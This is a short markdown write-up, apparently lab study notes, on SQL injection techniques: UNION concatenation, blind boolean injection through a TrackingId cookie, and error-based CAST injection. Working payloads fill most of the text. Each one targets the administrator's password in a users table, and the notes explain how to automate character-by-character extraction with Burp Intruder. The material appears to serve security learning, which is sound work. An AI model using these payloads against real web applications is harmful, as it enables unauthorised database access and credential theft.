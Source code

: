 # Retrieve multiple values in a single column

### Scenario
Trying to extract administrator's username and password from a table using a UNION injection and putting the two values in a single column.

### Exploit

We can abuse the string concatenation in SQL:

```sql
' UNION SELECT NULL, username || '<->' || password from users -- 
```

# Blind SQL injection with conditional responses

### Scenario

There is a SQL injection point in the "Cookie" request parameter. If the injection is correct we will obtain a "welcome back" messagge. 

### Exploit

With this SQL injection we can confirm the existence of the users table:

```sql
Cookie: TrackingId=ID' AND (SELECT 'a' FROM users LIMIT 1) = 'a'-- 
```
With the following one we can confirm the existence of the user "administrator":

```sql
Cookie: TrackingId=ID' AND (SELECT 'a' FROM users where username= 'administrator') = 'a'-- 
```

With the following one we can confirm the existence of the user "administrator" and try to find out the length of the associated password:

```sql
Cookie: TrackingId=ID' AND (SELECT 'a' FROM users where username= 'administrator' AND LENGTH(password) > 1) = 'a'-- 
```

**We can use Burp Intruder to increment automatically the value of the length in the request**.


Using Burp we found that the password length is exactly 20 chars.

We can use **"SUBSTRING()" SQL funciton** which extract part of a string contained in a DB. This takes three parameters: name of the column, starting point location in the string (with the starting point that is 1 and not 0), number of chars after the starting location.

We are trying to check if the first char of the password of admin user is equal to 'a':

```sql
Cookie: TrackingId=ID' AND (SELECT SUBSTRING(password, 1, 1) FROM users where username= 'administrator') = 'a'-- 
```

Another time, we can use Burp intruder to automate this check and than pass to the next chars.

# Visible error-based (not at all) BLIND SQL injection

### Scenario
We are in a situation in which we noticed that the there is a possible SQL injection in the "cookie" paramenter of the GET request.
We also noticed that if we force an error on the database, an error message is printed on the web pages, this is **a potential information leakege**. We want to exploit it to retrieve the administrator username and password from the table "users".

### Exploit
```sql
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users where username= 'administrator') AS INT) -- 
```

Or:
```sql
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS INT) -- 
```
